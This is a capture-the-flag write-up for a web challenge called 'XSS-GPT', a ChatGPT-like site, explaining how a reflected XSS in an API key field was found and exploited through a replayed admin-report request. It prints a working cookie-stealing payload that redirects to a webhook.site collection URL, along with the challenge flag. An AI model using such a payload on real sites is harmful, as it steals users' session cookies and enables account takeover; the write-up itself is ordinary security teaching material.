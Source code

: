 Name              : Lai Jian Hui 
Challenge Category: Web
Challenge Name    : XSS-GPT

## XSS-GPT
![image](https://github.com/user-attachments/assets/8479e899-7598-44fc-b4e0-c80bac8e3c72) <br>

# Description :
I built a chatgpt website using chatgpt. Feel free to try it! Remember to report to me if you found any bug

# Solution :

![image](https://github.com/user-attachments/assets/cd35f7db-48be-43b8-853f-879741ba8250) <br>
The challenge will bring us to a link that looks like chatgpt. I'm not allow to progress further as it says I do not have the API key but we can see that we have a lead that we can 
try to tamper with the API key value with other things
<br>
<br>

![image](https://github.com/user-attachments/assets/cc0c29db-0c5c-4645-bf5b-f5ed15d8480d) <br>
Since the challenge says XSS GPT, I try it rit away and it worked.A little changes is that the XSS payload needs to starts with the closing of </script> else it will not work because the API key part is wrap inside the JS script
<br>
<br>

![image](https://github.com/user-attachments/assets/08b40eda-e0a7-4b3d-9e32-d0166ff15083) <br>
XSS is a success and now we will look for a place to exploit it and get the API key. When going thru the reportAdmin() function will send a POST request to the API's endpoint along with the key. 
<br>
<br>

![image](https://github.com/user-attachments/assets/ce4526ba-a301-4ddc-900a-4b3a7e797624) <br>
Fire up BurpSuite and capture the reportAdmin request and send it to Repeater, we can see that is a POST request and the key is an empty value. With these 2, we can use the webhook method. Our solution will be sending our XSS payload inside the POST request and get the latest changes happen in webhook.site hosting service
<br>
<br>
![image](https://github.com/user-attachments/assets/ca3034f4-b787-4524-9719-41c0d465c2fc) <br>
Search webhook.site, by default they will prepare a hosting site for you, copy it and paste it in BurpSuite
<br>
<br>
![image](https://github.com/user-attachments/assets/66d95877-39ac-4c11-9f66-31f81b186f6d) <br>
We will be using combination of cookie stealing and redirection. To make sure that the request will be redirected to the webhook hosting site we use and steal the cookie.
<br>
<br>
![image](https://github.com/user-attachments/assets/36963aa9-c499-49ef-b70f-9a50613182ea) <br>
The payload will look like this: <br>
</script><script>location.href="https://webhook.site/96439999-db2f-41af-8027-7f1f50a00e31?c="+document.cookie</script> <br>
We encode the payload as URL format because the reportAdmin function specifies the key value must be encodeURIComponent.
<br>
<br>
![image](https://github.com/user-attachments/assets/a1e70c8a-812d-482c-8ecf-d31576d5c866) <br>
Copy the URL encode format XSS payload and replace the null value of the key and send the request. When the Response give you a 200 OK status, we can go to the webhook.site to check for latest changes happen at hosting server.
<br>
<br>
![image](https://github.com/user-attachments/assets/ef6afacc-a7d0-4610-945d-70113e584f18) <br>
The flag is at the quesry string section. Yatta!
<br>
<br>
**FLAG**
```
SKR{R3flec73D_1n_API_k3y_e9bc37}
```
